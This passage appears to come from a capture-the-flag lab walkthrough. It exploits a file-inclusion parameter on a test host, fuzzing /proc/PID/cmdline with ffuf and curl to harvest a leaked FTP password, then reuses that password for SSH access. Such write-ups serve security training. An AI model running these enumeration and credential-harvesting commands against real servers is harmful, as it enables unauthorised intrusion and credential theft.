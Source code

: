 ```bash
seq 1 5000 > pids.txt
```

We use ffuf to discover which PIDs allow us to obtain information and save the results in the file `cmd-ffuf.txt`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=/proc/FUZZ/cmdline" -w pids.txt  -fs 0 -o cmd-ffuf.txt
```

Since we have all the URLs found in an XML saved in the file cmd-ffuf.txt, we use it to make a request to all the URLs with information and save it in a file with the following one-line script.

```bash
jq -r '.results[].url' cmd-ffuf.txt | xargs -P4 -I {} sh -c 'echo "\n************* {}"; curl -s "{}" | tr "\0" " "'  > resultados.txt
```

Now we can observe all the commands found on the server in the file `resultados.txt`.

![resultados.txt](../../assets/images/zerotrace/resultadostxt.png)

We found the command that starts the `FTP` service on port `8000`, where the password used for the user `J4ckie0x17` is exposed.

## Initial Access with J4ckie0x17

With the found password for `J4ckie0x17`, we can access the FTP service on port 8000, but we do not have permissions to upload files in any of the folders, which prevents us from creating a webshell. We tried the same password on the SSH service and it indeed works, thus achieving initial access to the server.
